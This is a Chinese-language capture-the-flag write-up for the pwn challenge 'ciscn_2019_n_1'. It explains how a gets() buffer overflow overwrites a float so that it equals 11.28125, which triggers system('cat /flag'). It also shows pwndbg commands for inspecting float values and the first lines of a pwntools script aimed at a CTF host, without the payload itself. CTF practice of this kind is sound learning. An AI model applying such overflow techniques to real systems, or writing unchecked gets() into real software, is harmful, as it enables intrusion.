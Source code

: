 # ciscn_2019_n_1

## Information

- Category: Pwn
- Points: 1

## Write-up

通过 `gets` 将 `v2` 篡改为 `11.28125` 即可。

```c ins={9-10} del={8}
int func()
{
  _BYTE v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
  else
    return puts("Its value should be 11.28125");
}
```

第一次接触小数的处理问题，调试的时候，可以使用 `p/f $xmm0` 来查看这个寄存器的值，同理，使用 `p` 指令加上强制转换和解引用，可以检查地址处保存的小数值：

```asm wrap=false showLineNumbers=false
pwndbg> p/f $xmm0
$1 = {
  v8_bfloat16 = {-0, 11.25, 0, 0, 0, 0, 0, 0},
  v8_half = {-0, 2.6016, 0, 0, 0, 0, 0, 0},
  v4_float = {11.28125, 0, 0, 0},
  v2_double = {5.404878958234834e-315, 0},
  v16_int8 = {0, -128, 52, 65, 0 <repeats 12 times>},
  v8_int16 = {-0, 2.6016, 0, 0, 0, 0, 0, 0},
  v4_int32 = {11.28125, 0, 0, 0},
  v2_int64 = {5.404878958234834e-315, 0},
  uint128 = 3.98770131343430171379e-4942
}
pwndbg> p/f $xmm0.v4_int32[0]
$2 = 11.28125
pwndbg> p *(float *)($rbp - 4)
$3 = 11.28125
```

## Exploit

```python
#!/usr/bin/python

from pwn import args, context, flat, gdb, process, remote, struct

gdbscript = """
b *func+58
c
"""

FILE = "./ciscn_2019_n_1"
HOST, PORT = "node5.buuoj.cn", 25637

context(log_level="debug", binary=FILE, terminal="kitty")
```